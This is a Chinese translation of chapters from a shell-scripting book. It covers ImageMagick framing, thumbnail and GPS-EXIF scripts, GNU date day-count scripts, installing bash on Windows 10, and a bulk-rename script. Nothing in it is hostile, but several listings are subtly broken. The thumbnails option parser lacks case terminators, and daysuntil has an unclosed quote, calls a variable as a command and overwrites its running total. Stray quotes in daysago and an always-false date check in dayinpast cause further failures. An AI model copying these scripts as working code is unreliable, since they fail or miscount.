shift (($OPTIND - 1))  # Eat all the parsed arguments.

if [ $# -eq 0 ]; then  # No images specified?
 usage
 fi

# Did we specify a border and a frame?

if [ ! -z "$bordercolor" -a ! -z "$mattecolor" ]; then
 echo "$0: You can't specify a color and matte color simultaneously." >&2
 exit 1
 fi

if [ ! -z "$frame" -a ! -z "$border" ]; then
 echo "$0: You can't specify a border and frame simultaneously." >&2
 exit 1
 fi

if [ ! -z "$border" ]; then
 args="-bordercolor $bordercolor -border $border"
else
 args="-mattecolor $mattecolor -frame $frame"
fi
```

```bash
➊ for name
 do
 suffix="$(echo $name | rev | cut -d. -f1 | rev)"
 prefix="$(echo $name | rev | cut -d. -f2- | rev)"
 ➋ newname="$prefix+$f.$suffix"
 echo "Adding a frame to image $name, saving as $newname"
 ➌ convert $name $args $newname
 done
```

```bash
exit 0
```

代码清单 14-5：`frameit` 脚本

#### 工作原理

既然我们已经探讨过使用 `getopts` 来优雅地解析脚本的复杂参数，那么这个包装脚本就非常简单了，大部分工作都发生在最后几行。在 `for` 循环 ➊ 中，我们会为指定的文件名创建一个带有 `+f` 后缀的新版本（位于文件类型后缀之前）。

对于像 `abandoned-train.png` 这样的文件名，后缀将是 `png`，前缀将是 `abandoned-train`。请注意，我们丢失了点号（`.`），但在构建新文件名 ❷ 时我们会把它加回去。一旦完成，剩下的就是调用带有所有参数的 `convert` 程序 ❸。

#### 运行脚本

指定您想要的边框类型——可以使用 `-frame`（用于更复杂的 3D 效果）或 `-border`（用于简单边框），以及相应的 ImageMagick 几何值、边框或底板部分的首选颜色，以及输入的文件名（或多个文件名）。代码清单 14-6 显示了一个示例。

```bash
$ frameit -f 15%x15%+10+10 -m black abandoned-train.png
```

Adding a frame to image abandoned-train.png, saving as abandoned-train+f.png

代码清单 14-6：运行 `frameit` 脚本

#### 结果

此次调用的结果如图 14-2 所示。


图 14-2：博物馆风格的 3D 底板边框

#### 改进脚本

如果您遗漏了一个参数，ImageMagick 会发出一个通常令人困惑的错误：

```bash
$ frameit -f 15%x15%+10+10 alcatraz.png
```

Adding a frame to image alcatraz.png, saving as alcatraz+f.png

```text
convert: option requires an argument '-mattecolor' @ error/convert.c/
ConvertImageCommand/1936.
```

一个聪明的改进方法是在脚本中添加额外的错误测试，以避免用户遇到这些糟糕的提示，您觉得呢？

该脚本在处理包含空格的文件名时可能会出现问题。当然，打算放在 Web 服务器上的文件名永远不应包含空格，但您仍然应该修复脚本以消除这个问题。

### #97 创建图像缩略图

我们惊讶地发现这个问题出现的频率如此之高：有人在网页上放入了一张大得离谱的图像，或者发送了一张比计算机屏幕大得多的照片。这不仅令人厌烦，而且浪费带宽和计算机资源。

我们将实现的这个脚本可以为您提供的任何图片创建缩略图，允许您指定详细的高度和宽度参数，或者简单地指示生成的较小图像必须适应某些尺寸。事实上，创建缩略图是官方推荐的酷炫的 `mogrify` 工具的用途之一：

```bash
$ mkdir thumbs
$ mogrify -format gif -path thumbs -thumbnail 100x100 *.jpg
```

请注意，通常您希望在并行目录中创建缩略图，而不是与原始图像在同一个目录中。事实上，如果误用，`mogrify` 工具可能会非常危险，因为它可能会用缩略图版本覆盖目录中的所有图像，从而破坏原始副本。为了减轻这种担忧，`mogrify` 命令在 `thumbs` 子目录中创建 100 × 100 的缩略图，并在过程中将它们从 JPEG 转换为 GIF。

这很有用，但应用范围仍然较窄。让我们创建一个更通用的缩略图处理脚本，如代码清单 14-7 所示。它当然可以用来完成上述任务，但也可以用于许多其他图像缩减任务。

#### 代码

```bash
#!/bin/bash
# thumbnails--Creates thumbnail images for the graphics file specified,
# matching exact dimensions or not-to-exceed dimensions

convargs="-O-unsharp 0x.5 -resize"
count=0; exact=""; fit=""

usage()
{
    echo "Usage: $0 (-e|-f) thumbnail-size image [image] [image]" >&2
    echo "-e resize to exact dimensions, ignoring original proportions" >&2
    echo "-f fit image into specified dimensions, retaining proportion" >&2
    echo "-s strip EXIF information (make ready for web use)" >&2
    echo "  please use WIDTHxHEIGHT for requested size (e.g., 100x100)"
    exit 1
}

##################
## BEGIN MAIN

if [ $# -eq 0 ] ; then
    usage
fi

while getopts "e:f:s" opt; do
    case $opt in
        e ) exact="$OPTARG";
        f ) fit="$OPTARG";
        s ) strip="-strip";
        * ) usage ;
    esac
done
shift $(($OPTIND - 1)) # Eat all the parsed arguments.

rwidth=$(echo "$exact" | cut -dx -f1) # Requested width
rheight=$(echo "$exact" | cut -dx -f2) # Requested height

for image
do
    width="$(identify -format "%w" "$image")"
    height="$(identify -format "%h" "$image")"

    # Building thumbnail for image=$image, width=$width, and height=$height
    if [ $width -le $rwidth -a $height -le $rheight ] ; then
        echo "Image $image is already smaller than requested dimensions. Skipped."
    else
        # Build new filename.

        suffix=$(echo $image | rev | cut -d. -f1 | rev)
        prefix=$(echo $image | rev | cut -d. -f2- | rev)
        newname="${prefix}-thumb.${suffix}"

        # Add the "!" suffix to ignore proportions as needed.

        if [ -z "$fit" ] ; then
            size="$exact!"
            echo "Creating ${rwidth}x${rheight} (exact size) thumb for file $image"
        else
            size="$fit"
            echo "Creating ${rwidth}x${rheight} (max size) thumb for file $image"
        fi

        convert "$image" $strip $convargs "$size" "$newname"
    fi
    count=$(( $count + 1 ))
done

if [ $count -eq 0 ]; then
  echo "Warning: no images found to process."
fi

exit 0
```

代码清单 14-7：`thumbnails` 脚本

#### 工作原理

ImageMagick 非常复杂，因此非常需要像这样一个能够简化常见任务的脚本。在这个脚本中，我们利用了一些额外的功能，包括 `-strip` 参数，用于移除可交换图像文件格式（EXIF）信息。这些信息对于照片存档很有用，但对于在线使用是不必要的（例如，使用的相机、照片的 ISO 速度、光圈、地理位置数据等）。

另一个新标志是 `-unsharp`，这是一个滤镜，可确保缩小的缩略图在处理后不会变得模糊。要解释此参数的潜在值及其对结果的影响将涉及大量科学知识，因此为了保持简单，我们在不解释的情况下直接使用参数 `0x.5`。想了解更多信息？通过网络搜索可以很快找到详情。

理解“精确尺寸”缩略图与“适应尺寸”缩略图之间区别的最佳方法是看示例，如图 14-3 所示。


“适应”缩略图


“精确尺寸”缩略图

原图，1024 × 657

图 14-3：精确给定尺寸的缩略图（`-e` 参数）与按比例适应某些尺寸的缩略图（`-f` 参数）之间的区别

在内部，创建精确缩略图和适应缩略图的区别仅仅是一个感叹号。这就是 ❸ 处发生的事情。

除此之外，您在这个脚本中看到的一切之前都出现过，从文件名的拆分和重新组装，到使用 `-format` 标志获取当前图像的高度或宽度。

#### 运行脚本

示例 14-8 展示了该脚本在工作时，为一张夏威夷的照片创建不同尺寸的新缩略图。

#### 运行结果

```text
$ thumbnails
Usage: thumbnails (-e|-f) thumbnail-size image [image] [image]
 -e resize to exact dimensions, ignoring original proportions
 -f fit image into specified dimensions, retaining proportion
 -s strip EXIF information (make ready for web use)
 please use WIDTHxHEIGHT for requested size (e.g., 100x100)
$ thumbnails -s -e 300x300 hawaii.png
Creating 300x300 (exact size) thumb for file hawaii.png
$ thumbnails -f 300x300 hawaii.png
Creating 300x300 (max size) thumb for file hawaii.png
$
```

示例 14-8：运行 `thumbnails` 脚本

#### 改造脚本

对该脚本的一个巧妙改进是：使其能够根据传入的多个尺寸范围来生成一组缩略图。例如，你可以一次性创建 100 × 500、500 × 500 以及壁纸尺寸的 1024 × 768 图像。另一方面，也许这类任务最好交给另一个 shell 脚本来处理。

### #98 解析 GPS 地理位置信息

如今大多数照片是用手机或其他知道经纬度的智能数字设备拍摄的。当然，这涉及到隐私问题，但能够精确地定位照片拍摄地点也很有趣。不幸的是，虽然 ImageMagick 的 `identify` 工具可以让你提取这些 GPS 信息，但数据的格式很难阅读：

```text
exif:GPSLatitude: 40/1, 4/1, 1983/100
exif:GPSLatitudeRef: N
exif:GPSLongitude: 105/1, 12/1, 342/100
exif:GPSLongitudeRef: W
```

显示的信息是以度、分、秒表示的——这很合理——但格式不直观，特别是像 Google Maps 或 Bing Maps 等网站所期望的格式更像这样：

```text
40 4' 19.83" N, 105 12' 3.42" W
```

此脚本将 EXIF 信息转换为后一种格式，这样你就可以直接将数据复制并粘贴到地图程序中。作为该过程的一部分，脚本必须解决一些基础方程（注意 `identify` 工具提供的纬度秒值为 `1983/100`，等于 `19.83`）。

#### 代码

经纬度的概念比你想象的要古老。事实上，葡萄牙地图绘制者 Pedro Reinel 在 1504 年就在他的地图上首次绘制了纬线。这些计算还涉及一些奇特的数学。幸运的是，我们不需要自己推演。相反，我们只需要知道如何将 EXIF 经纬度值转换为现代地图应用所期望的值，你将在示例 14-9 中看到这一点。该脚本还使用了第 33 页脚本 #8 中的 `echoon` 脚本。


```bash
#!/bin/bash
# geoloc--For images that have GPS information, converts data into
# a string that can be fed to Google Maps or Bing Maps

tempfile="/tmp/geoloc.$$"

trap "rm -f $tempfile" 0 1 15

if [ $# -eq 0 ]; then
    echo "Usage: $(basename $0) image" >&2
    exit 1
fi

for filename
do
    identify -format "%[EXIF:*]" "$filename" | grep GPSL > $tempfile

    latdeg=$(head -1 $tempfile | cut -d, -f1 | cut -d= -f2)
    latdeg=$(scriptbc -p 0 $latdeg)
    latmin=$(head -1 $tempfile | cut -d, -f2)
    latmin=$(scriptbc -p 0 $latmin)
    latsec=$(head -1 $tempfile | cut -d, -f3)
    latsec=$(scriptbc $latsec)
    latorientation=$(sed -n '2p' $tempfile | cut -d= -f2)

    longdeg=$(sed -n '3p' $tempfile | cut -d, -f1 | cut -d= -f2)
    longdeg=$(scriptbc -p 0 $longdeg)
    longmin=$(sed -n '3p' $tempfile | cut -d, -f2)
    longmin=$(scriptbc -p 0 $longmin)
    longsec=$(sed -n '3p' $tempfile | cut -d, -f3)
    longsec=$(scriptbc $longsec)
    longorientation=$(sed -n '4p' $tempfile | cut -d= -f2)

    echoon "Coords: ${latdeg}${latmin}' ${latsec}\"${latorientation}, "
    echo "${longdeg}${longmin}' ${longsec}\"${longorientation}"
done

exit 0
```

示例 14-9：`geoloc` 脚本

### 工作原理

每次探索 ImageMagick 时，我们都会发现它有另一个参数或另一种利用其能力的方法。在这种情况下，事实证明你可以使用❶处的`-format`参数，从与图像关联的 EXIF 信息中仅提取特定的匹配参数。

请注意，我们使用`GPSL`作为`grep`的匹配模式，而不是`GPS`。这样我们就不必筛选所有会被报告的额外 GPS 相关信息。试着删掉`L`看看会打印出多少其他 EXIF 数据！

之后，剩下的就是提取特定的信息字段，并使用`scriptbc`求解数学方程，将数据转换为有意义的格式，如❷处的`latdeg`行所示。

到此为止，多次使用`cut`的管道操作你应该已经很熟悉了。这是一个超级好用的脚本工具！

一旦所有数据被提取且所有方程被求解，我们需要以符合经纬度标准表示法的方式重新组装信息，如❸处所示。这样就完成了！

### 运行脚本

给脚本一张图片，如果文件包含经纬度信息，脚本将将其转换为可供 Google Maps、Bing Maps 或任何其他主流地图程序分析的格式，如示例 14-10 所示。

### 运行结果

```text
$ geoloc parking-lot-with-geotags.jpg
Coords: 40° 3' 19.73" N, 103° 12' 3.72" W
$
```

示例 14-10：运行`geoloc`脚本

### 改造脚本

如果你输入一张没有 EXIF 信息的照片会发生什么？我认为脚本应该优雅地处理这种情况，而不是简单地输出一个来自`bc`调用失败的丑陋错误消息，或者打印空的坐标，你觉得呢？添加一些防御性代码来确保从 ImageMagick 提取的 GPS 位置值是合理的，将是一个很有用的改进。

# 15 日期和时间

计算日期数学是很棘手的，无论你是想弄清楚某一年是否为闰年，距离圣诞节还有多少天，还是你已经生存了多少天。这就是基于 Unix 的系统（如 OS X）与基于 GNU 基础的 Linux 系统之间存在巨大分歧的地方。David MacKenzie 为 GNU 版本 Linux 重写的`date`工具在功能上要强大得多。

如果你使用的是 OS X 或其他执行`date --version`会产生错误消息的系统，你可以下载一套核心工具集（coreutils），它会为你提供一个名为`gdate`的新命令行选项。对于 OS X，你可以使用`brew`包管理器（默认未安装，但很容易安装以便日后使用）：

```text
$ brew install coreutils
```

一旦安装了 GNU date，计算例如某一年是否为闰年就可以由程序本身处理，而不需要你去处理诸如“能被 4 整除但不能被 100 整除”之类的规则。

```bash
if [ $( date 12/31/$year +%j ) -eq 366 ]
```

换句话说，如果一年中的最后一天是该年的第 366 天，那么它一定是闰年。

GNU date 的另一个优势是它能够回溯到很遥远的过去。标准的 Unix`date`命令构建时的“零时”或纪元日期（epoch date）是 UTC 时间 1970 年 1 月 1 日 00:00:00。想知道 1965 年发生的事情？那太难了。幸运的是，通过本章中的三个精妙脚本，你可以利用 GNU date 的优势。

## #99 查找过去某个特定日期的星期几

快速回答：你是星期几出生的？尼尔·阿姆斯特朗和巴兹·奥尔德林第一次登上月球是星期几？示例 15-1 中的脚本可以帮你快速回答这些经典问题，并简洁地展示了 GNU date 的强大之处。

### 代码

```bash
#!/bin/bash
# dayinpast--Given a date, reports what day of the week it was

if [ $# -ne 3 ]; then
    echo "Usage: $(basename $0) mon day year" >&2
    echo "  with just numerical values (ex: 7 7 1776)" >&2
    exit 1
fi

date --version > /dev/null 2>&1  # Discard error, if any.
baddate="$?"	            # Just look at return code.

if [ ! $baddate ]; then
    date -d $1/$2/$3 "+That was a %A."
else
    if [ $2 -lt 10 ]; then
        pattern="$2[^0-9]"
    else
        pattern="$2[^0-9]"
    fi

    dayofweek="$(lcal $1 $3 | grep "$pattern" | cut -c1-2)"
```

```bash
case $dayofweek in
  Su ) echo "That was a Sunday."; ;;
  Mo ) echo "That was a Monday."; ;;
  Tu ) echo "That was a Tuesday."; ;;
  We ) echo "That was a Wednesday."; ;;
  Th ) echo "That was a Thursday."; ;;
  Fr ) echo "That was a Friday."; ;;
  Sa ) echo "That was a Saturday."; ;;
  esac
fi
exit 0
```

清单 15-1：`dayinpast`脚本

### 工作原理

还记得我们一直在称赞 GNU date 吗？这就是原因。整个脚本的核心就在❶处的单次调用。极其简单。

如果无法使用该版本的`date`，脚本会使用`ncal`❷，它是简单`cal`程序的变体，能以一种奇特——但很有用！——的格式显示指定的月份：

```text
$ ncal 8 1990
August 1990
Mo 6 13 20 27
Tu 7 14 21 28
We 1 8 15 22 29
Th 2 9 16 23 30
Fr 3 10 17 24 31
Sa 4 11 18 25
Su 5 12 19 26
```

有了这些信息，确定星期几就变得很简单：只需找到与日期相匹配的那一行，然后将两个字母的缩写转换为完整的名称即可。

### 运行脚本

尼尔·阿姆斯特朗和巴兹·奥尔德林于 1969 年 7 月 20 日降落在静海基地，清单 15-2 显示那天是一个星期日。

```text
$ dayinpast 7 20 1969
That was a Sunday.
```

清单 15-2：使用阿姆斯特朗和奥尔德林登月日期运行`dayinpast`脚本

D-Day（盟军在诺曼底的大规模登陆）是 1944 年 6 月 6 日：

```text
$ dayinpast 6 6 1944
That was a Tuesday.
```

再来一个，美国独立宣言的日期 1776 年 7 月 4 日：

### 修改脚本

本章中的所有脚本都使用相同的“月 日 年”输入格式，但如果能让用户指定更熟悉的格式（如月/日/年）就更好了。幸运的是，这并不难实现，第 17 页的脚本 #3 是一个很好的起点。

## #100 计算两个日期之间相隔的天数

你已经生活了多少天？你的父母相识以来过去了多少天？有很多关于流逝时间这类性质的问题，而答案通常难以计算。不过，GNU date 再次让生活变得简单。

脚本 #100 和脚本 #101 都基于同一个概念：通过计算起始年和结束年的天数差异，以及中间每一年包含的天数，来计算两个日期之间相隔的天数。你可以使用这种方法来计算过去某个日期距今多少天（本脚本），以及距离未来的某个日期还剩多少天（脚本 #101）。

清单 15-3 相当复杂。准备好了吗？

### 代码

```bash
#!/bin/bash
# daysago--Given a date in the form month/day/year, calculates how many
# days in the past that was, factoring in leap years, etc.

# If you are on Linux, this should only be 'which date'.
# If you are on OS X, install coreutils with brew or from source for gdate.
date="$(which gdate)"

function daysInMonth
{
	case $1 in
	1|3|5|7|8|10|12 ) dim=31 ;;  # Most common value
	4|6|9|11 ) dim=30 ;;
	2 ) dim=29 ;;  # Depending on whether it's a leap year
	* ) dim=-1 ;;  # Unknown month
	esac
}

function isleap
{
    # Returns nonzero value for $leapyear if $1 was a leap year
    leapyear=$(date -d 12/31/$1 +%j | grep 366)
}

##########################
#### MAIN BLOCK
##########################

if [ $# -ne 3 ] ; then
    echo "Usage: $(basename $0) mon day year"
    echo "  with just numerical values (ex: 7 7 1776)"
    exit 1
fi

$date --version > /dev/null 2>&1    # Discard error, if any.

if [ $? -ne 0 ] ; then
    echo "Sorry, but $(basename $0) can't run without GNU date." >&2
    exit 1
fi

eval $("$date "+thismon=%m;thisday=%d;thisyear=%Y;dayofyear=%j")

startmon=$1; startday=$2; startyear=$3

daysInMonth $startmon # Sets global var dim.

if [ $startday -lt 0 -o $startday -gt $dim ] ; then
    echo "Invalid: Month #$startmon only has $dim days." >&2
    exit 1
fi

if [ $startmon -eq 2 -a $startday -eq 29 ] ; then
    isleap $startyear
    if [ -z "$leapyear" ] ; then
        echo "Invalid: $startyear wasn't a leap year; February had 28 days." >&2
        exit 1
    fi
fi

##########################
#### CALCULATING DAYS
##########################

#### DAYS LEFT IN START YEAR

# Calculate the date string format for the specified starting date.
startdatefmt="$startmon/$startday/$startyear"

calculate=$(( (10#$(date -d "12/31/$startyear" +%j)) - 10#$(date -d $startdatefmt +%j) ))

daysleftinyear=$(( $calculate ))

#### DAYS IN INTERVENING YEARS

daysbetweenyears=0
tempyear=$((startyear + 1))

while [ $tempyear -lt $thisyear ] ; do
    daysbetweenyears=$((daysbetweenyears + 10#$(date -d "12/31/$tempyear" +%j)))
    tempyear=$((tempyear + 1))
done

#### DAYS IN CURRENT YEAR

dayofyear=$(date +%j) # That's easy!

#### NOW ADD IT ALL UP

totaldays=$(( (10#$daysleftinyear) + (10#$daysbetweenyears) + (10#$dayofyear) ))

/bin/echo -n "$totaldays days have elapsed between "
/bin/echo -n "$startmon/$startday/$startyear "
echo "and today, day $dayofyear of $thisyear."
exit 0
```

清单 15-3：`daysago`脚本

### 工作原理

这是一个很长的脚本，但其逻辑并不太复杂。闰年函数非常简单——我们只需检查该年是否有 366 天。

在脚本继续执行之前，有一个有趣的测试来确保 GNU 版本的`date`可用。

重定向操作会丢弃任何错误消息或输出，然后通过检查返回码是否非零来判断，如果非零则表示解析`--version`参数时出错了。例如在 OS X 上，date 的功能很精简，没有`--version`或许多其他便捷功能。

接下来的部分就是基础的日期数学计算。`%j`返回一年中的第几天，因此计算当前年份剩余的天数变得很直接。中间年份的天数通过`while`循环完成，其中使用`tempyear`变量来跟踪年份的递增。

最后，今年已经过去了多少天？在 4 处可以轻松实现：

```bash
dayofyear=$(date +%j)
```

然后只需将所有天数相加即可得到结果！

### 运行脚本

让我们在清单 15-4 中再次查看那些历史日期。

```text
$ daysago 7 20 1969
17106 days have elapsed between 7/20/1969 and today, day 141 of 2016.

$ daysago 6 6 1944
26281 days have elapsed between 6/6/1944 and today, day 141 of 2016.

$ daysago 1 1 2010
2331 days have elapsed between 1/1/2010 and today, day 141 of 2016.
```

清单 15-4：使用各种日期运行`daysago`脚本

这些都是在……好吧，让`date`告诉我们吧：

```text
$ date
Fri May 20 13:30:49 UTC 2016
```

### 修改脚本


该脚本还未捕捉到一些额外的错误情况，特别是当过去日期就在几天前，甚至在未来几天时的边缘情况。会发生什么，你该如何修复它？（提示：查看脚本`#101`，看看你可以为此脚本应用哪些额外的测试。）

### `#101` 计算距离指定日期的天数

脚本`#100`（`daysago`）的逻辑拍档是另一个脚本`daysuntil`。该脚本基本上执行相同的计算，但修改了逻辑以计算当前年份剩余的天数、中间年份的天数以及目标年份中指定日期之前的天数，如清单 15-5 所示。

#### 代码

```bash
#!/bin/bash
# daysuntil--Basically, this is the daysago script backward, where the
# desired date is set as the current date and the current date is used
# as the basis of the daysago calculation.

# As in the previous script, use 'which gdate' if you are on OS X.
# If you are on Linux, use 'which date'.
date="$(which gdate)"

function daysInMonth
{
	case $1 in
	1|3|5|7|8|10|12 ) dim=31 ;;  # Most common value
	4|6|9|11 ) dim=30 ;;
	2 ) dim=29 ;; # Depending on whether it's a leap year
	* ) dim=-1 ;; # Unknown month
	esac
}

function isleap
{
	# If specified year is a leap year, returns nonzero value for the $leapyear
	leapyear=$(date -d 12/31/$1 +%j | grep 366)
}

############################
#### MAIN BLOCK
############################

if [ $# -ne 3 ] ; then
	echo "Usage: $(basename $0) mon day year"
	echo "    with just numerical values (ex: 1 1 2020)"
	exit 1
fi

$date --version > /dev/null 2>&1  # Discard error, if any.

if [ $? -ne 0 ] ; then
	echo "Sorry, but $(basename $0) can't run without GNU date." >&2
	exit 1
fi

eval $(date "+thismonth=%m;thisday=%d;thisyear=%Y;dayofyear=%j")

endmon=$1; endday=$2; endyear=$3

# Lots of parameter checks needed...
daysInMonth $endmon  # Sets $dim variable
if [ $endday -lt 0 -o $endday -gt $dim ] ; then
	echo "Invalid: Month #$endmon only has $dim days." >&2
	exit 1
fi

if [ $endmon -eq 2 -a $endday -eq 29 ] ; then
	isleap $endyear
fi
```

```bash
if [ -z "$leapyear ]; then
    echo "Invalid: $endyear wasn't a leapyear; February had 28 days." >&2
    exit 1
fi
```

```bash
if [ $endyear -lt $thisyear ]; then
    echo "Invalid: $endmon/$endday/$endyear is prior to the current year." >&2
    exit 1
fi
```

```bash
if [ $endyear -eq $thisyear -a $endmon -lt $thismon ]; then
    echo "Invalid: $endmon/$endday/$endyear is prior to the current month." >&2
    exit 1
fi
```

```bash
if [ $endyear -eq $thisyear -a $endmon -eq $thismon -a $endday -lt $thisday ]
then
    echo "Invalid: $endmon/$endday/$endyear is prior to the current date." >&2
    exit 1
fi
```

```bash
if [ $endyear -eq $thisyear -a $endmon -eq $thismon -a $endday -eq $thisday ]
then
    echo "There are zero days between $endmon/$endday/$endyear and today." >&2
    exit 0
fi
```

#### 如果我们处理的是同一个年份，计算方式会有所不同

```bash
if [ $endyear -eq $thisyear ]; then

totaldays=$(( $(date -d "$endmon/$endday/$endyear" +%j) - $(date +%j) ))

else

    #### 分块计算，首先计算本年剩余的天数。

    #### 起始年份剩余天数

    # 为指定的起始日期计算日期字符串格式。

    thisdatefmt="$thismon/$thisday/$thisyear"

    calculate="$(date -d "12/31/$thisyear" +%j) - $(date -d $thisdatefmt +%j)"

    daysleftinyear=$(( $(calculate) ))

    #### 中间年份的天数

    daysbetweenyears=0
    tempyear=$(( $thisyear + 1 ))
```

```bash
while [ $tempyear -lt $endyear ] ; do
	daysbetweenyears=$(( $(date -d "12/31/$tempyear" +%j) ))
	tempyear=$(( $tempyear + 1 ))
done
```

#### 结束年份的天数

```bash
dayofyear=$(date --date $endmon/$endday/$endyear +%j)  # 这很简单！
```

#### 现在将全部相加

```bash
totaldays=$(( $daysleftinyear + $daysbetweenyears + $dayofyear ))
```

```bash
fi
```

```bash
echo "There are $totaldays days until the date $endmon/$endday/$endyear."
exit 0
```

代码清单 15-5：`daysuntil` 脚本

#### 工作原理

正如我们所说，`daysago` 脚本和这个脚本之间有很多重叠，多到你甚至可以将它们合并为一个脚本，并使用条件语句来测试用户请求的是过去日期还是未来日期。这里的大部分数学运算简单来说就是`daysago`脚本的逆运算，是将目光看向未来而非回顾过去。

不过，这个脚本更简洁一些，因为它在调用实际计算之前考虑了更多的错误条件。例如，我们在❶处最喜欢的测试。

如果有人尝试通过指定今天的日期来欺骗脚本，这个条件语句会捕获到这一点，并返回“零天”作为计算结果。

#### 运行脚本

距离 2020 年 1 月 1 日还有多少天？代码清单 15-6 给了我们答案。

```bash
$ daysuntil 1 1 2020
There are 1321 days until the date 1/1/2020.
```

代码清单 15-6：使用 2020 年第一天运行`daysuntil`脚本

距离 2025 年圣诞节还有多少天？

```bash
$ daysuntil 12 25 2025
There are 3506 days until the date 12/25/2025.
```

准备迎接美国的三百周年庆典？这是你还剩下的天数：

```bash
$ daysuntil 7 4 2076
There are 21960 days until the date 7/4/2076.
```

最后，考虑到以下情况，我们很可能无法活到第三个千年：

```bash
$ daysuntil 1 1 3000
There are 359259 days until the date 1/1/3000.
```

#### 改造脚本

在第 330 页的脚本`#99`中，我们能够确定给定日期是星期几。将此功能与`daysago`和`daysuntil`脚本相结合，一次性获取所有相关信息将会非常有用。

## 附录 A：在 WINDOWS 10 上安装 BASH


**就在本书即将付印时，微软发布了适用于 Windows 的 bash shell——既然我们要出版一本关于 shell 脚本编程的书，怎么能不告诉你们这个新选项呢？**

麻烦之处在于，你不仅需要运行 Windows 10，还需要安装 Windows 10 周年更新（版本 14393，2016 年 8 月 2 日发布）。你还需要一个 x64 兼容的处理器并成为 Windows Insider 计划的成员。然后你就可以开始安装 bash 了！

首先在`https://insider.windows.com/`加入 Insider 计划。加入是免费的，它将为你提供一种便捷的方式将 Windows 版本更新到周年版本。Insider 计划有一个 Windows 10 更新助手会提示你更新，请使用它更新到要求的版本。这可能需要一些时间，并且你需要重启。

### 开启开发者模式

一旦你加入了 Windows Insider 计划并安装了周年版本的 Windows 10，你就需要进入开发者模式。首先，进入“设置”并搜索“开发者模式”。**使用开发者功能**部分应该会出现。在此处，选择**开发者模式**，如图 A-1 所示。


图 A-1：在 Windows 10 中启用开发者模式

当你选择开发者模式时，Windows 可能会警告进入开发者模式可能会让你的设备面临风险。这个警告是真实的：进入开发者模式确实会让你承担更大风险，因为你可能会无意中安装来自非批准网站的程序。然而，如果你能保持谨慎和警觉，我们鼓励你继续操作，这样你至少可以尝试一下 bash 系统。点击警告通过后，Windows 将在你的计算机上下载并安装一些额外的软件。这需要一点时间。

接下来，你必须进入传统的早期 Windows 配置区域来启用适用于 Linux 的 Windows 子系统（Windows Subsystem for Linux）。（微软甚至为 Linux 提供了一个子系统，这太酷了！）通过搜索“启用或关闭 Windows 功能”进入该界面。一个窗口将打开，列出长长的服务和功能清单，每个都有复选框（见图 A-2）。

不要取消勾选任何内容；你只需要勾选**Windows Subsystem for Linux (Beta)**。然后点击**确定**。

你的 Windows 系统将提示你重启以完全启用 Linux 子系统和新的开发者工具。请执行重启。



图 A-2：启用或关闭 Windows 功能窗口

### 安装 Bash

现在你可以准备好从命令行安装 bash 了！绝对是老派作风。在“开始”菜单中，搜索“命令提示符”并打开命令窗口。然后只需输入`bash`，系统将提示你在 PC 上安装 bash 软件，如图 A-3 所示。输入`y`，bash 将开始下载。



图 A-3：在 Windows 10 的命令行系统中安装 bash

有大量内容需要下载、编译和安装，因此这一步也需要一段时间。全部安装完成后，系统会提示你输入 Unix 用户名和密码。你可以选择任何你想要的名称；它们不需要与你的 Windows 用户名和密码匹配。

现在你在 Windows 10 系统中拥有了一个完整的 bash shell，如图 A-4 所示。当你打开命令提示符时，只需输入`bash`，bash 就可以使用了。



图 A-4：是的，我们在命令提示符中运行 bash。在 Windows 10 上！

### 微软的 Bash Shell 与 Linux 发行版

到目前为止，Windows 上的 bash 看起来更像是一个新鲜玩意，而不是对 Windows 10 用户极其有用的工具，但了解它是有好处的。如果你只有 Windows 10 系统且想学习更多关于 bash shell 脚本编程的知识，不妨试一试。

如果你对 Linux 更严肃，那么在 PC 上安装 Linux 发行版双启动，甚至在虚拟机中运行完整的 Linux 发行版（可以尝试 VMware 这种优秀的虚拟化解决方案）会更适合你。

但即便如此，还是要给微软在 Windows 10 中加入 bash 点赞。非常酷。

## 附录 B：额外脚本


因为我们无法拒绝这些瑰宝！在开发第二版时，我们最终为了备份目的编写了几个额外的脚本。事实证明我们不需要这些备用脚本，但我们不想向读者隐瞒我们的“秘密配方”。

前两个额外脚本是为那些必须管理大量文件移动或处理的系统管理员准备的。最后一个脚本是为那些总在寻找下一个可以将 Web 服务转化为 shell 脚本的 Web 用户准备的；我们将抓取一个帮助我们跟踪月相的网站！

### `#102` 批量重命名文件

系统管理员经常需要将大量文件从一个系统迁移到另一个系统，而新系统中的文件通常需要一套完全不同的命名方案。对于少数几个文件，手动重命名很简单，但当需要重命名数百或数千个文件时，这项工作就更适合交给 Shell 脚本来处理。

#### 代码实现

Listing B-1 中的简单脚本接受两个参数用于匹配和替换文本，以及一个指定要重命名文件的参数列表（可以使用通配符 glob 以便使用）。

```bash
#!/bin/bash
# bulkrename--通过替换文件名中的文本来重命名指定文件

printHelp()
{
    echo "Usage: $0 -f find -r replace FILES_TO_RENAME*"
    echo "-f The text to find in the filename"
    echo "-r The replacement text for the new filename"
    exit 1
}

while getopts "f:r:" opt
do
    case "$opt" in
        r ) replace="$OPTARG"  ;;
        f ) match="$OPTARG"    ;;
        ? ) printHelp           ;;
    esac
done

shift $(( $OPTIND - 1 ))

if [ -z $replace ] || [ -z $match ]
then
    echo "You need to supply a string to find and a string to replace";
    printHelp
fi

for i in $@
do
    newname=$(echo $i | sed "s/$match/$replace/")
    mv $i $newname && echo "Renamed file $i to $newname"
done
```

Listing B-1：`bulkrename`脚本

#### 工作原理

我们首先定义一个`printHelp()`函数❶，它将打印所需的参数和脚本用途，然后退出。定义完新函数后，代码使用`getopts`❷遍历传递给脚本的参数（如之前的脚本一样），在指定参数时为`replace`和`match`变量赋值。

随后，脚本检查之后将要使用的变量是否具有值。如果`replace`❸和`match`❹变量的长度为零，脚本将打印一条错误信息，告知用户需要提供要查找的字符串和要替换的字符串。然后脚本打印`printHelp`文本并退出。

在验证`match`和`replace`都有值后，脚本开始遍历指定的其余参数❺，这些参数应该是要重命名的文件。我们使用`sed`❻将文件名中的`match`字符串替换为`replace`字符串，并将新文件名存储在 bash 变量中。存储新文件名后，我们使用`mv`命令将文件重命名为新文件名，然后打印一条消息告知用户文件已被重命名。

#### 运行脚本


`bulkrename` Shell 脚本接受两个字符串参数和要重命名的文件（可以使用通配符以方便使用；否则，需要单独列出）。如果指定了无效参数，将打印一条友好的帮助信息，如 Listing B-2 所示。

### 运行结果

```bash
$ ls ~/tmp/bulk
1_dave 2_dave 3_dave 4_dave
$ bulkrename
You need to supply a string to find and a string to replace
Usage: bulkrename -f find -r replace FILES_TO_RENAME*
-f The text to find in the filename
-r The replacement text for the new filename
❶ $ bulkrename -f dave -r brandon "~/tmp/bulk/*"
